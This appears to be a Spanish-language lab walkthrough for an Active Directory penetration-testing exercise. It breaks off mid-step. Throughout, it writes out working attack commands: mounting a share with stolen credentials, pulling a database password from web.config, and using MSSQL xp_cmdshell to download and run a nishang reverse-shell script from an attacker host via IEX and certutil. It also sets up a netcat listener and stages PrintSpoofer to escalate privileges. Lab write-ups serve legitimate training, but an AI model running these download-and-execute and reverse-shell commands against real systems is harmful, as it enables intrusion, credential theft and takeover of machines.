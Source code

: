 - Mapeamos el contenido con powershell
    ```powershell
    $pass = ConvertTo-SecureString 'Welcome1' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\BR086',$pass )
    New-PSDrive -Name "N" -Root "\\172.16.7.3\Department Shares" -PSProvider "FileSystem" -Credential $cred
    ```
- Encontramos un archivo `web.config` que contiene la siguiente línea: 
    ```powershell
     type web.config | select-string pass
    <add name="ConString" connectionString="Environment.GetEnvironmentVariable("computername")+'\SQLEXPRESS';Initial Catalog=Northwind;User ID=netdb;Password=D@ta_bAse_adm1n!"/>
    ```
    Por lo que obtenemos las siguientes credenciales: `netdb:D@ta_bAse_adm1n!`

- Accedemos al servicio MSSQL de `SQL01` con estas credenciales
    ```bash
    mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60 
    ```


- Tras comprobar que la IP de nuestra máquina atacante es 172.16.7.240, ejecutamos un onliner que descarga `Invoke-PowershellTcp.ps1` de nishang y lo ejecuta directamente de forma fileless.
    - Compartimos el archivo con `python -m http.server`
    - Nos ponemos en escucha: `nc -nlvp 4444`
    - Descargamos y ejecutamos el archivo
		```mssql
	        xp_cmdshell "powershell -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString(''http://172.16.7.240:8000/Invoke-PowerShellTcp.ps1''); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.7.240 -Port 4444"
        # valía igualmente xp_cmdshell "powershell IEX ...
		```
    - Opción alternativa a la anterior. 
        - Añadir al final del archivo `Invoke-PowerShellTcp.ps1` la línea
            ```powershell
            Invoke-PowerShellTcp -Reverse -IPAddress 172.16.7.240 -Port 4444
            ```
        - Descargamos el archivo con certutil
            ```powershell
            xp_cmdshell "certutil -urlcache -split -f http://172.16.7.240:8000/Invoke-PowerShellTcp.ps1 C:\Windows\Temp\Invoke-PowerShellTcp.ps1"
            ```
        - Y lo ejecutamos
            ```powershell
            xp_cmdshell "powershell IEX c:\Windows\Temp\Invoke-PowerShellTcp.ps1"
            ```
            

- Una vez tenemos conexión, tratamos de escalar privilegios. Comprobamos con 
    ```powershell
    whoami /priv
    ```
    Que tenemos 
    ```
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    ```
    Lo cual nos permite abusar 
- Nos pasamos el archivo `PrintSpoofer64.exe`, por ejemplo con certutil
    ```powershell
    certutil -urlcache -split -f http://172.16.7.240:8000/PrintSpoofer64.exe C:\Users\public\printspoofer.exe
    ```
- Elevamos privilegios con una powershell #3 (Base64) de revshells: 
    - Nos ponemos en escucha